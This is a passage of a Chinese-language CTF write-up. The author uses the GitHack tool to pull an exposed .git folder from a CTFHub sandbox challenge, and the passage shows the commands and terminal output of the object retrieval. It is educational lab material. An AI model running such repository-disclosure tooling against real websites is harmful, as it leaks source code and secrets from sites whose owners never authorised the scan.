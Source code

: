 根据题目描述使用`GitHack`获取`.git`文件夹。

```bash
┌──(tyd㉿Kali)-[~/ctf]
└─$ git clone https://github.com/BugScanTeam/GitHack.git

┌──(tyd㉿Kali)-[~/ctf]
└─$ cd GitHack   

┌──(tyd㉿Kali)-[~/ctf/GitHack]
└─$ python2 GitHack.py http://challenge-86088fe5e4711df9.sandbox.ctfhub.com:10800/.git

  ____ _ _   _   _            _                                            
 / ___(_) |_| | | | __ _  ___| | __                                        
| |  _| | __| |_| |/ _` |/ __| |/ /                                        
| |_| | | |_|  _  | (_| | (__|   <                                         
 \____|_|\__|_| |_|\__,_|\___|_|\_\{0.0.5}                                 
 A '.git' folder disclosure exploit.                                       
                                                                           
[*] Check Depends
[+] Check depends end
[*] Set Paths
[*] Target Url: http://challenge-86088fe5e4711df9.sandbox.ctfhub.com:10800/.git/                                                                      
[*] Initialize Target
[*] Try to Clone straightly
[*] Clone
正克隆到 '/home/tyd/ctf/GitHack/dist/challenge-86088fe5e4711df9.sandbox.ctfhub.com_10800'...
致命错误：仓库 'http://challenge-86088fe5e4711df9.sandbox.ctfhub.com:10800/.git/' 未找到
[-] Clone Error
[*] Try to Clone with Directory Listing
[*] http://challenge-86088fe5e4711df9.sandbox.ctfhub.com:10800/.git/ is not support Directory Listing                                                 
[-] [Skip][First Try] Target is not support Directory Listing
[*] Try to clone with Cache
[*] Initialize Git
[!] Initialize Git Error: 提示：使用 'master' 作为初始分支的名称。这个默认分支名称可能会更改。要在新仓库中                                           
提示：配置使用初始分支名，并消除这条警告，请执行：                         
提示：                                                                     
提示：  git config --global init.defaultBranch <名称>                      
提示：                                                                     
提示：除了 'master' 之外，通常选定的名字有 'main'、'trunk' 和 'development'。                                                                         
提示：可以通过以下命令重命名刚创建的分支：                                 
提示：                                                                     
提示：  git branch -m <name>                                               
                                                                           
[*] Cache files
[*] packed-refs
[*] config
[*] HEAD
[*] COMMIT_EDITMSG
[*] ORIG_HEAD
[*] FETCH_HEAD
[*] refs/heads/master
[*] refs/remote/master
[*] index
[*] logs/HEAD
[*] logs/refs/heads/master
[*] Fetch Commit Objects
[*] objects/05/4002c4fd9c95edfaa91ba505b6d1dd8f680b32
[*] objects/01/2ae1fc6b838a345b689ae6bb4ec0edfd517a64
[*] objects/2c/1e32dfd33267f265fda913d29e29572c2ba0be
```